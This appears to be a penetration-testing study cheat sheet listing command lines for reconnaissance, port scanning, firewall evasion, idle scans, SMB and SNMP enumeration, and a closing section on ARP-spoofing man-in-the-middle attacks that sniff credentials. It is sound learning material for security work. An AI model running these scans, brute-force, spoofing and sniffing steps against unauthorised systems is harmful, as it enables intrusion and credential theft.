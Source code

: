 ### Network Security  
#### 1.1 Information Gathering
_1.1.1 Passive Recon_  

WhoIs Look-ups
```
$ whois domain.com
or
$ sudo nmap --script whois-domain domain.com -sn
```
DNS Enumeration  
Queries w/ Nslookup
```
$ Nslookup -query=<Arg(any/MX/NS)> domain.com
or interactive
$ nslookup
>set q=<Arg(A/MX/NS)>
>domain.com
```
Queries and Zonetransfers w/ Dig
```
$ Dig +nocmd domain.com <Arg(MX/NS/A)> +noall +answer
$ Dig +nocmd domain.com AXFR +noall +answer @domain.com // Zone Transfer
```
Other Options for DNS Enumeration
```
$ fierce -dns domain.com
$ dnsrecon -d domain.com
$ dnsmap domain.com
```

_1.1.2 Host Discovery_  
Nmap
```
$ sudo nmap -sn targetIP --disable-arp-ping
$ sudo nmap -sn -P<Arg(S/A)> targetIP --disable-arp-ping // TCP packet with SYN or ACK flag
$ sudo nmap -sn -PE targetIP --disable-arp-ping // ICMP echo request
$ sudo nmap -sn -PP targetIP --disable-arp-ping // Timestamp request
```
FPing
```
$ fping -A targetIP -e  // send ICMP echo packet, check if alive
$ fping -q -a -g target/24 -r 0 -e // send ICMP echo to subnet with no retries in quiet mode, only show if alive
```
HPing3
```
$ sudo hping3 -F -P -U target -c 3 // Xmas discovery scan, RA flag
$ sudo hping3 -1 192.168.1.x --rand-dest -I eth2 // host discovery on subnet on specificed interface
```

_1.1.3 Active Recon_  
**Basic**  
Nmap
```
$ sudo nmap -sS target -n // SYN scan, no hostname resolution
$ sudo nmap -sS -n -Pn -iL target.txt // SYN scan, from list of known live hosts
$ sudo nmap -sT target -F // TCP connect scan
$ sudo nmap -sU target -p 21,53,80,111,137 // UDP scan on specificed ports
$ sudo nmap -sX target --top-ports 200 // Xmas scan on top 200 ports
```
**Advanced**  
Nmap
```
Bypass firewall with fragmentation  
$ sudo nmap -f -sS targetIP -n -p 80,21,153,443 --disable-arp-ping -Pn --data-length 48
Bypass firewall by spoofing MAC or vendor 
$ sudo nmap --spoof-mac apple targetIP -p 80 -Pn --disable-arp-ping -n 
Bypass firewall with source port
$ sudo nmap --source-port 53 targetIP -sS
Bypass firewall with Decoys
$ sudo nmap -sS -DdecoyIP,decoyIP,ME,decoyIP targetIP -n
```
Nmap NSE (Location: /usr/share/nmap/scripts/)
```
$ sudo nmap --script-updatedb // Update NSE DB
$ sudo nmap --script-help "smb*" and discovery // search for script
$ sudo nmap --script auth targetIP // all authentication scripts, loud
$ sudo nmap --script smb-os-discovery -p 445 targetIP // SMB OS discovery
$ sudo nmap --script smb-enum-shares targetIP -p 445 // Enumerate SMB shares
```
Idle Scans w/ Nmap & Hping3
```
$ sudo nmap --script ipidseq targetIP -p 135 // Check if IP good zombie candidate, use known open port for accuracy
$ sudo nmap -sI zombieIP:135 targetIP -p 23 -Pn // Idle scan remote host with zombie IP on specified port

$ sudo hping3 -S -r targetIP -p 135 // Check if host good zombie candidate, look for id increment by 1
$ sudo hping3 -a zombieIP -S targetIP -p 23 // Spoof source to zombie IP, if increments by 2 then port is open
```
#### 1.2 Enumeration  
_1.2.1 NetBIOS Enumeration_  
Enum4Linux & SMBClient
```
$ enum4linux -a -v targetIP // NetBIOS enumeration scan
$ smbclient -L targetIP // List share names
$ smbclient \\\\targetIP\\Folder // Access share folder
smb:> get filename.txt /home/root/Desktop/filename.txt
```
_1.2.2 SNMP Enumeration (p.161)_   
Nmap & Snmpwalk
```
$ sudo nmap -sU -p 161 --script snmp-brute targetIP // Find available community string
$ snmpwalk -v 2c -c public targetIP // Enumerate SNMP information, where v = snmp version and c = community string
$ sudo nmap -sU -p 161 --script snmp-win32-users targetIP // Enumerate Windows users through SNMP
```
_1.2.3 MitM Attack_  
Manually  
```
$ sudo wireshark -i tap0 // Start wireshark on specificed interface
$ echo 1 > /proc/sys/net/ipv4/ip_forward // Enable IP forwarding, makes attacker machine proxy between two victims
$ arpspoof -i tap0 -t victimIP impersonatedIP // Telling the victim IP that we are impersonated IP via ARP reply
$ arpspoof -i tap0 -t impersonatedIP victimIP
!arp && http.authbasic // Filter basic authentication traffic in wireshark
$ dsniff -i tap0 // Sniffs authentication packets on specified interface while Mitm running
```
Automatically: Ettercap
```
$ ettercap -G
Sniff > Unified Sniffing > tap0 // Specify interface to sniff on
Hosts > Scan for Hosts // Scans for available hosts on network
Right-click to select Victim 1 and 2
Mitm > ARP Poisoning > Sniff remote connections
View > Connections // Ettercap filters credentials submitted in Mitm
```

